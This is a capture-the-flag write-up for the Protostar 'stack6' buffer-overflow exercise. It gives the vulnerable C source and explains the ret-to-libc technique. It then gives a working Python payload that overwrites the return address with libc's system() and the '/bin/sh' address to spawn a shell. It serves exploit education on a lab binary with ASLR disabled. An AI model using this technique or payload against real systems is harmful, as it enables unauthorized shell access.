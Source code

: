 # Stack 6

## Source Code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);                            // <- this function cause buffer overflow    (1)

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {   // <- check if the ret of getpath() is on the stack     (2)
    printf("bzzzt (%p)\n", ret);           //          if true, then "bzzzt" and exit with signal 1    (3)
    _exit(1);
  }

  printf("got path %s\n", buffer);         // <-       if false, then it's simply print got path  (4)
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Overview & Idea

- This challenge has no-pie, no stack protector, rwx segment.

![img](/protostar/stack6/assets/checksec.png)

- At first, we can see that the program has buffer overflow vulnerability (1), so we can overwrite on the stack. But we can't overwrite getpath()'s address to another address on the stack that allow us to return to, so we can't use return to shellcode on stack to take control of target.
 
![img](/protostar/stack6/assets/stack_segment.png)

> ## Note: the stack has start at 0xbffeb000 and end at 0xc0000000, so we can't overwrite ret and return on the stack.

- With some informations above, I'll take advantage of ret-to-libc vulnerability to this challenge. 

## Details

### A bit about Ret-to-libc

#### What is Ret-to-libc?

- Ret-to-libc attack (return to libc, or return to C library) is one in which the attacker does not require any shellcode to take control of the target, vulnerability of process. Ret2libc is used to exploit buffer overflow vulnerabilities on systems where stack memory is protected with NX (no execute bit).
- In a standard stack-based buffer overflow, an attacker writes their shellcode into the vulnerable program's stack and executes it on the stack. 
- However, if the vulnerable program's stack is protected (NX bit is set, which is the case on newer systems), attackers can no longer execute their shellcode from the vulnerable program's stack. 
- To fight the NX protection, a return-to-libc technique is used, which enables attackers to bypass the NX bit protection and subvert the vulnerable program's execution flow by re-using existing executable code from the standard C library shared object (/lib/i386-linux-gnu/libc-*.so), that is already loaded and mapped into the vulnerable program's virtual memory space, similarly like ntdll.dll is loaded to all Windows programs.

#### Libc

- Every time you write a C program, you use one or the other of the inbuilt functions, like printf, scanf, puts etc. All the standard C functions have been compiled into a single file, named the standard C library or the libc. A libc is native to the system that you are working on and is independent of the binary (compiled program). You can use the **ldd** command to find out which libc is being used by an application.

![img](/protostar/stack6/assets/ldd.png)

- At a high level, ret-to-libc technique is similar to the regular stack overflow attack, but with one key difference - instead of overwritting the return address of the vulnerable function with address of the shellcode when exploiting a regular stack-based overflow with no stack protection, in ret-to-libc case, the return address is overwritten with a memory address that points to the function system(const char *command) that lives in the libc library, so that when the overflowed function returns, the vulnerable program is forced to jump to the system() function and execute the shell command that was passed to the system() function as the *command argument as part of the supplied shellcode. 
- In our case, we will want the vulnerable program to spawn the /bin/sh shell, so we will make the vulnerable program call system("/bin/sh").

#### The idea of Ret2libc is shown by below image

![img](/protostar/stack6/assets/illustrate_img.png)

### Exploit

- Let's find:
  + Size of bytes to overwrite until we can overwrite return the getpath() functions's address.
  + System() function's address to implement CLI command to take the shell.
  + Exit() function's address to exit the program when we done, but you can alter this with garbage value to fill up 4 bytes, like "aaaa" or somethings else.
  + Address to "/bin/sh" char*.

> # Note: ASLR must be turn off, if it's on, the address will be randomize every time we run the program
>
> ![img](/protostar/stack6/assets/aslr_off.png)
>

#### Offset to overwrite

- I use cyclic from pwntools to find the offset that we must overwrite

![img](/protostar/stack6/assets/cyclic.png)

![img](/protostar/stack6/assets/input.png)

- After do that, we find the offset to overwrite

![img](/protostar/stack6/assets/offset.png)

#### System and Exit function's address

- In GDB, I use `p system` and `p exit` to find the address of system and exit function

![img](/protostar/stack6/assets/system_exit.png)

> # Note: we can see that both system and exit function are in libc

#### Finding "/bin/sh"

- The `int system(char *command)` take 1 argument that is the shell command, so we also find "/bin/sh" string.

- We can use `find address_begin, address_end string_to_find` to find characters in string in range between address begin and end. But it's not in a specific ordered.

- But when the program is running, it link the libc to use build-in function. So we can find "/bin/sh" in this linked libc. In this program is /lib/libc-2.11.2.so with offset is 11f3bf

![img](/protostar/stack6/assets/offset_binsh.png)

- Finally, address of "/bin/sh" when program is running is calculated by `offset_binsh + libc_base_address = 0x11f3bf + 0xb7e97000 = 0xb7fb63bf`.

- So, We found all things to exploit the program, let's use python to write some script.

```python
# file name: exp.py

padding = "a"*80
fake_ret = "a"*4
sys_addr = "\xb0\xff\xec\xb7"
binsh_addr = "\xbf\x63\xfb\xb7"

payload = ""
payload += padding + sys_addr + fake_ret + binsh_addr
print(payload)

# python exp.py > temp.pwn
# (cat temp.pwn; cat) | ./stack6
```
